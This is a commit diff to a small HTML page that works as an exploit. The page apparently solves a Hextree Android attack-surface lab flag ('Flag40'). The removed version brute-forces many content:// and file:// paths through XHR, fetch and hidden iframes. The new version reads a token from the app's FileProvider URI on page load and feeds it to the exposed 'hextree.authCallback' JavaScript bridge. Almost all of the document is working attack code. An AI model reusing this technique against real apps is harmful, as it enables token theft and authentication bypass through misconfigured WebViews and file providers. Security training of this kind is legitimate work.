

Before and after one commit to Blackkader/webdemo, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,200 +1,67 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <title>WebView Exploit</title>
     <meta charset="UTF-8">
+    <title>Flag40 Exploit</title>
     <style>
-        body {
-            font-family: Arial, sans-serif;
-            margin: 20px;
-            background-color: #f0f0f0;
-        }
-        h1 {
-            color: #333;
-        }
-        #status {
-            font-size: 18px;
-            font-weight: bold;
-            color: #007700;
-            margin: 10px 0;
-        }
-        #debug {
-            background-color: #fff;
-            border: 1px solid #ccc;
-            padding: 10px;
-            margin: 10px 0;
-            max-height: 400px;
-            overflow-y: auto;
-            font-family: monospace;
-            font-size: 12px;
-        }
+        body { font-family: sans-serif; padding: 20px; background: #f9f9f9; }
+        h1 { color: #333; }
+        #status { margin-top: 10px; font-weight: bold; color: #007700; }
     </style>
 </head>
 <body>
-    <h1>WebView Exploit</h1>
-    <div id="status">Starting...</div>
-    <div id="debug"></div>
+    <h1>Flag40 Exploit</h1>
+    <div id="status">Loading...</div>
 
     <script>
-        let found = false;
-        let attempts = 0;
-        let maxAttempts = 20;
+        const status = document.getElementById('status');
 
-        // Debug function
+        // The content:// URI of the token file exposed by the app's FileProvider
+        const tokenUri = 'content://io.hextree.root/files/token.txt';
+
         function debug(msg) {
-            document.getElementById('debug').innerHTML += msg + '<br>';
             console.log(msg);
+            status.innerText = msg;
         }
 
-        // Check if hextree interface is available
-        debug('Checking hextree interface...');
-        if (window.hextree) {
-            debug('hextree interface found!');
-            if (window.hextree.authCallback) {
-                debug('authCallback method available');
-            } else {
-                debug('authCallback method NOT found');
+        function readTokenAndAuth(uri) {
+            if (!window.hextree || !window.hextree.authCallback) {
+                debug('hextree interface not available.');
+                return;
+            }
+
+            debug('Attempting to fetch token via content:// URI...');
+
+            // Try XHR to read the content:// URI
+            const xhr = new XMLHttpRequest();
+            xhr.open('GET', uri, true);
+            xhr.onreadystatechange = function() {
+                if (xhr.readyState === 4) {
+                    if (xhr.status === 200 && xhr.responseText) {
+                        const token = xhr.responseText.trim();
+                        debug('Token fetched: ' + token.substring(0, 10) + '...');
+                        try {
+                            window.hextree.authCallback(token);
+                            debug('authCallback executed successfully!');
+                        } catch (e) {
+                            debug('Error calling authCallback: ' + e);
                         }
                     } else {
-            debug('hextree interface NOT found');
+                        debug('Failed to read token. Status: ' + xhr.status);
                     }
-
-        // Multiple file paths to try
-        const paths = [
-            'content://io.hextree.root/files/token.txt',
-            'content://io.hextree.root/token.txt',
-            'content://io.hextree.root/files/token',
-
-
-            'content://io.hextree.root/internal/token.txt',
-            'content://io.hextree.root/data/token.txt',
-            'content://io.hextree.root/app/token.txt',
-            'content://io.hextree.attacksurface.fileprovider/files/token.txt',
-            'content://io.hextree.attacksurface/files/token.txt',
-            'file:///data/data/io.hextree.attacksurface/files/token.txt',
-            'file://data/data/io.hextree.attacksurface/files/token.txt',
-            'file:///android_asset/token.txt',
-            'file://android_asset/token.txt',
-            'file:///sdcard/token.txt',
-            'file:///storage/emulated/0/token.txt',
-            'file:///data/local/tmp/token.txt',
-            '/data/data/io.hextree.attacksurface/files/token.txt',
-            'token.txt',
-            './token.txt'
-        ];
-
-        // XHR function with better error handling
-        function tryXHR(url) {
-    const xhr = new XMLHttpRequest();
-    xhr.open('GET', url, true);
-    xhr.onreadystatechange = function() {
-        if (xhr.readyState === 4 && xhr.responseText) {
-            console.log(xhr.responseText);
                 }
             };
-    xhr.onerror = function(error) {
-        // console.log(error);
-    }
+            xhr.onerror = function(e) {
+                debug('XHR error: ' + e);
+            };
             xhr.send();
         }
 
-        // Fetch API alternative
-        function tryFetch(url) {
-            attempts++;
-            debug('Attempt ' + attempts + ': Fetch ' + url);
-            fetch(url)
-            .then(response => {
-                debug('Fetch ' + url + ' status: ' + response.status);
-                return response.text();
-            })
-            .then(text => {
-                if (text && !found) {
-                    found = true;
-                    debug('SUCCESS! Token found via fetch: ' + text);
-                    document.getElementById('status').innerHTML = 'Token found via Fetch!';
-                    if (window.hextree && window.hextree.authCallback) {
-                        window.hextree.authCallback(text.trim());
-                        debug('authCallback executed with: ' + text.trim());
-                    }
-                }
-            })
-            .catch(e => {
-                debug('Fetch error for ' + url + ': ' + e);
-            });
-        }
-
-        // Iframe function with better debugging
-        function tryIframe(url) {
-            attempts++;
-            debug('Attempt ' + attempts + ': Iframe ' + url);
-            const i = document.createElement('iframe');
-            i.style.display = 'none';
-            i.onload = function() {
-                try {
-                    debug('Iframe loaded: ' + url);
-                    const doc = i.contentDocument || i.contentWindow.document;
-                    if (doc) {
-                        debug('Got iframe document');
-                        const txt = (doc.body ? doc.body.innerText || doc.body.textContent : doc.documentElement.textContent) || '';
-                        debug('Iframe content: ' + txt);
-                        if (txt && !found) {
-                            found = true;
-                            debug('SUCCESS! Token found via iframe: ' + txt);
-                            document.getElementById('status').innerHTML = 'Token found via Iframe!';
-                            if (window.hextree && window.hextree.authCallback) {
-                                window.hextree.authCallback(txt.trim());
-                                debug('authCallback executed with: ' + txt.trim());
-                            }
-                        }
-                    } else {
-                        debug('No document in iframe');
-                    }
-                } catch (e) {
-                    debug('Iframe processing error: ' + e);
-                }
+        // Run after the page loads
+        window.onload = function() {
+            debug('Page loaded, starting exploit...');
+            setTimeout(() => readTokenAndAuth(tokenUri), 200);
         };
-            i.onerror = function(e) {
-                debug('Iframe load error: ' + e);
-            };
-            document.body.appendChild(i);
-            i.src = url;
-        }
-
-        // Start the attack
-        setTimeout(function() {
-            debug('Starting attack with ' + paths.length + ' paths');
-            paths.forEach(function(path, index) {
-                setTimeout(function() {
-                    if (!found && attempts < maxAttempts) {
-                        tryXHR(path);
-                    }
-                }, index * 100);
-                setTimeout(function() {
-                    if (!found && attempts < maxAttempts) {
-                        tryFetch(path);
-                    }
-                }, index * 100 + 50);
-                setTimeout(function() {
-                    if (!found && attempts < maxAttempts) {
-                        tryIframe(path);
-                    }
-                }, index * 100 + 25);
-            });
-
-            // Fallback: try to call with empty or dummy token if all fails
-            setTimeout(function() {
-                if (!found) {
-                    debug('All attempts failed. Trying fallback...');
-                    if (window.hextree && window.hextree.authCallback) {
-                        debug('Trying empty token...');
-                        window.hextree.authCallback('');
-                        debug('Trying dummy tokens...');
-                        window.hextree.authCallback('test');
-                        window.hextree.authCallback('token');
-                    }
-                }
-            }, 4000);
-        }, 200);
     </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
